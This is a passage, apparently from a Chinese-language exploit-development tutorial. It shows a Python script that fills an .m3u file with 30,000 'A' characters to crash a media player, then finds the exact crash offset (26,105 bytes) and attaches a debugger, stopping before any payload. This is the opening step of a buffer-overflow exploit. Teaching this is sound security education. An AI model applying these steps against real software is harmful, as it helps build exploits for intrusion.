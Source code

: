 
1.  然后，我们将文件拖放到播放器中，我们会看到它崩溃了：

![](img/24084d91-a809-4a7c-a5e6-bb289d7855aa.png)

1.  现在我们需要找到导致崩溃的确切字节数。

1.  在文件中手动输入这么多`A`将会花费很长时间，所以我们写一个简单的 Python 程序来代替我们做这件事：

```
        import io
        a="A"*30000
        file =open("crash.m3u","w")
        file.write(a)
        file.close()
```

1.  现在我们玩弄字节，找到崩溃的确切值。

1.  在我们的情况下，由于程序在 26,104 字节处没有崩溃，所以它的长度是 26,105：

![](img/ff14a5e0-2a9f-4c2a-8ac8-4b2cf31e5ee6.png)

1.  现在，我们运行我们的调试器，并通过导航到 File | Attach 将正在运行的转换程序附加到它：

![](img/d6ee96ff-ee75-41e1-9695-f6e2d1bb137d.png)
